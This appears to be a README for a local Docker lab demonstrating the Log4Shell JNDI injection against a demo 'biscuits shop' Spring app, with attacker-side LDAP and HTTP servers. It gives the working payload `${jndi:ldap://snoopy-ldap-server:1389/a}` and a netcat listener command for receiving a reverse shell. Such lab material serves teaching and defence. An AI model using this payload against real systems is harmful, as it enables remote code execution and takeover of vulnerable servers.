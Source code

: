 ## Starting up the exploit

Run, in this order, the following commands : 

```bash
docker compose up -d database       # wait for the database to spinup
docker compose up application       # before launching application.
docker compose up snoopy-http-server
docker compose up snoopy-ldap-server
```

Connect to `http://localhost:8080` to access the biscuits shop frontend. 

Do the RCE via `${jndi:ldap://snoopy-ldap-server:1389/a}` 
Connect database container from shell via `mysql -h 127.0.0.1 -P 3306 -u root -p biscuits`
Query the spring LDAP authentication server via `ldapsearch -x -D "uid=ben,ou=people,dc=unige,dc=ch" -W -H ldap://0.0.0.0:8389 -b "ou=people,dc=unige,dc=ch" -s sub "uid=*"`
Query the malicious LDAP server via `ldapsearch -H ldap://0.0.0.0:1389 -b "dc=example,dc=com" -s sub -x "(objectclass=*)"`
Access the malicious http server at `http://localhost:8000`

### Remote Shell Exploit

Startup a netcat server to listen for an incoming TCP remote shell connection `docker run -it snoopy-netcat-listener -lvnp 9001`.

Dependencies : 

Working install of docker and docker compose. 